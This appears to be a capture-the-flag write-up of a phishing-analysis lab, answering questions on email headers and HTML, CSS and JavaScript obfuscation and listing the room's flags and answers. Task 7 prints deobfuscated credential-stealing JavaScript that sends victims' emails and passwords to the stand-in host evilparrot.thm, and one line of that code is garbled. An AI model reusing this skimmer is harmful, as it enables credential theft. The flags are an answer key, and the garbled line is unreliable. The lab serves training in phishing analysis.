






> # ParrotPost: Phishing Analysis

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 3 - Email Headers](#task-3---email-headers)
    - [Task 4 - Email Attachment Analysis](#task-4---email-attachment-analysis)
    - [Task 5 - HTML Obfuscation](#task-5---html-obfuscation)
    - [Task 6 - CSS Obfuscation](#task-6---css-obfuscation)
    - [Task 7 - JavaScript Obfuscation](#task-7---javascript-obfuscation)
    - [Task 8 - Putting It All Together](#task-8---putting-it-all-together)

<!-- /TOC -->

## Task 3 - Email Headers
1. According to the IP address, what country is the sending email server associated with?<br>
    Submit `109.205.120.0` to [ip2location](https://www.ip2location.com/demo/109.205.120.0)
    <br>

    **Answer:** Latvia

1. If Paul replies to this email, which email address will his reply be sent to?<br>
    In `Other Headers` section, there is a filed named `reply-to` displayed the email address if Paul replies to this email.<br>
    <br>
    **Answer:** no-reply@postparr0t.thm

1. What is the value of the custom header in the email?<br>
    <br>
    **Answer:** THM{y0u_f0und_7h3_h34d3r}

## Task 4 - Email Attachment Analysis
1. What encoding scheme is used to obfuscate the web page contents?<br>
    From the description, it is base64.<br>
    **Answer:** base64

1. What is the built-in JavaScript function used to decode the web page before writing it to the page?<br>
    **Answer:** atob()

1. After the initial base64 decoding, what is the value of the leftover base64 encoded comment?<br> 
    In the decoded string, there is another base64 string.<br>
    <br>
    **Answer:** THM{d0ubl3_3nc0d3d}

## Task 5 - HTML Obfuscation
1. After decoding the HTML Entity characters, what is the text inside of the <h1> tag?<br>
    <br>
    **Answer:** ParrotPost Secure Webmail Login

## Task 6 - CSS Obfuscation
1. What is the reverse of CSS Minify?<br>
    >  The CSS has also gone through a Minifier to remove unnecessary whitespace, comments, and other characters that are not needed for the browser to interpret and display the styles correctly. If we wanted to understand the stylesheet more, we could copy and paste it into a CSS Beautify tool to make it more readable. 
    [https://www.cleancss.com/css-beautify/](https://www.cleancss.com/css-beautify/)<br>
    **Answer:** CSS Beautify

## Task 7 - JavaScript Obfuscation
1. What is the URL that receives the login request when the login form is submitted?<br>
    [https://beautifier.io/](https://beautifier.io/)<br>
    Paste the code in `<script>...</script>` to the above link.<br>
    ```js
    const form = document.getElementById("login-form");
    const loginButton = document.getElementById("login-button");
    let errorMessage = null;
    form.addEventListener("submit", (event) => {
        /*prevent the form from submitting normally*/
        event.preventDefault(); /*get the username and password input values and set them to variables*/
        const email = document.getElementById("email").value;
        const password = document.getElementById("password").value; /*create a new HTTP request object for our evil server*/
        const xhr = new XMLHttpRequest(); /*encode the email and password using encodeURIComponent*/
        const encodedEmail = encodeURIComponent(email);
        const encodedPassword = encodeURIComponent(password); /*add the encoded email and password as query parameters in the GET request*/
        const url = `http://evilparrot.thm:8080/cred-capture.php?email=${encodedEmail}&password=${encodedPassword}`;
        xhr.open("GET", url, true); /*send the GET request to the evil server*/
        xhr.send();
        if (errorMessage) {
            errorMessage.innerHTML = "Sorry, there was an error processing your request. Please try again later.";
        } else {
            errorMessage = document.createElement("div");
            errorMessage.innerHTML = "Sorry, there was an error processing your request. Please try again later.";
            errorMessage.style.color = "red";
            3.2 .1 = "0";
            form.insertBefore(errorMessage, loginButton.nextSibling);
        }
    }); /*redirect to the REAL PostParrot website after sending, so the victim doesn't get suspicious! //window.location.href = "https://www.postparrot.thm";*/
    ```
    **Answer:** http://evilparrot.thm:8080/cred-capture.php

1. What is the JavaScript property that can redirect the browser to a new URL?<br>
    **Answer:** window.location.href

## Task 8 - Putting It All Together
1. What is the flag you receive after sending fake credentials to the /cred-capture.php endpoint?<br>
    Follow steps on the description.<br>
    <br>
    **Answer:** THM{c4p7ur3d_y0ur_cr3d5}

1. What is the path on the web server hosting the log of captured credentials?<br>
    **Answer:** /creds.txt

1. Based on the log, what is Chris Smith's password?<br>
    Access this link on browser, you will see Chris Smith's password.<br>
    **Answer:** FlyL1ke!A~Bird
